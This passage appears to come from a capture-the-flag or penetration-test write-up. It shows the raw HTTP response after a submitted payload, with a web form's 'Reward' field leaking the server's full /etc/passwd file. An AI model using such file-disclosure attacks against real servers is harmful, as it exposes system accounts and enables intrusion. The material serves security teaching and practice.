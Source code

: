 After submitting the payload, we received the following response:

```HTTP
HTTP/1.1 200 OK

Date: Wed, 11 Jun 2025 15:14:17 GMT

Server: Apache/2.4.41 (Ubuntu)

Vary: Accept-Encoding

Content-Length: 2102

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
```